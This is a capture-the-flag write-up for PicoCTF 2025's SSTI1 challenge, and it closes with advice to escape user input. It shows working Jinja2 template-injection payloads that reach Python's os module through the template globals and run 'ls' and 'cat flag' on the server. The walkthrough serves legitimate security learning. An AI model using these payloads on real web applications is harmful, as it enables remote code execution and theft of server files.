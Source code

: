```yaml
---
title: "PicoCTF 2025 - SSTI1 - Writeup"
date: "2025-08-15"
draft: false
summary: "Writeup for the SSTI1 challenge from PicoCTF 2025"
tags: ["ssti", "writeups", "ctf", "python", "jinja2"]
---
```

# CTF Writeup: SSTI1 (PicoCTF 2025)

This challenge presents a simple website where users can submit an announcement, which then gets displayed back to them. Looks pretty innocent.

---

## Step 1: Inspect the Website

The page looks like this:

![Website Screenshot](./landing_page.png)  
![Form Screenshot](example_input.png)  
![Output Screenshot](example.png)  

The frontend HTML is straightforward:

```html
<!DOCTYPE html>
<html>
  <head><title>SSTI1</title></head>
  <body>
    <h1> Home </h1>
    <p>I built a cool website that lets you announce whatever you want!* </p>
    <form action="/" method="POST">
      What do you want to announce: <input name="content" id="announce"> 
      <button type="submit"> Ok </button>
    </form>
    <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> 
      *Announcements may only reach yourself 
    </p>
  </body>
</html>
```

- No extra parameters in the request.  
- No hidden scripts or suspicious endpoints.  
- Just a text input reflected back on the page.  

So the vulnerability must be in how this input is processed.

---

## Step 2: Hypotheses

When user input is echoed back, a few classic vulnerabilities come to mind:  

1. **XSS (Cross-Site Scripting)**  
   → Would run malicious JavaScript in the browser, but that affects only the client side.  

2. **SQL Injection**  
   → Doesn’t make sense here, since we aren’t interacting with a database.  

3. **SSTI (Server-Side Template Injection)**  
   → Happens when user input is directly passed into a template engine (like Latex, Jinja2, Smarty, Twig, etc.) and rendered as code.  

Given the challenge title, option (3) is the clear candidate. I have done this once with Latex and forced it to execute a command. Maybe this will be similar.

---

## Step 3: Testing for Jinja2

We have to start with a framework. Jinja2 is the most common template engine for Python (I would say), so we will start with that. A common way to test for Jinja2 is to inject a simple expression:  

```
{{ 5*5 }}
```

If the output renders as `25`, the input is being evaluated inside a Jinja2 template.

**Bingo!** The expression evaluates, confirming a Jinja2 SSTI.

![Payload Success](./25.png)  

---

## Step 4: Exploring the Template Context

With SSTI confirmed, the next step is to explore what’s available in the rendering context. One useful trick is to look at the template’s global python variables:

```
{{ self.__init__.__globals__ }}
```

The app outputs something like:

```
# {'__name__': 'jinja2.runtime', '__doc__': 'The runtime functions and state used by compiled templates.', ...
'__builtins__': {...}, 'Macro': <class 'jinja2.runtime.Macro'>, ... }
```

This reveals access to Python internals, including `__builtins__`. That’s huge, because from here, we can call dangerous functions like `__import__`.

---

## Step 5: Arbitrary Code Execution

Once we have `__import__`, it’s game over. We can import Python’s `os` module and execute system commands:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

This executes `ls` on the server and returns the directory contents.  

![Shell Access](./ls.png)  

Reading the flag is just as simple:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

There we go! We got the flag.

![Flag Output](flag.png)  

---

## Step 6: Lessons Learned

This challenge demonstrates the danger of **mixing data and code**.  

- User input must never be directly passed into a template without escaping.  
- In Jinja2 and basically **everywhere**, the correct way to safely display user input is to **escape it**, ensuring that it’s treated purely as text rather than executable code.  

---

## Final Thoughts

What started as a plain input field turned into full server compromise with just a few payloads. **Sanitize input** and **separate logic from presentation**!  

SSTI vulnerabilities might not be as well-known as XSS or SQL injections, but they’re just as dangerous. Especially, since they are less known.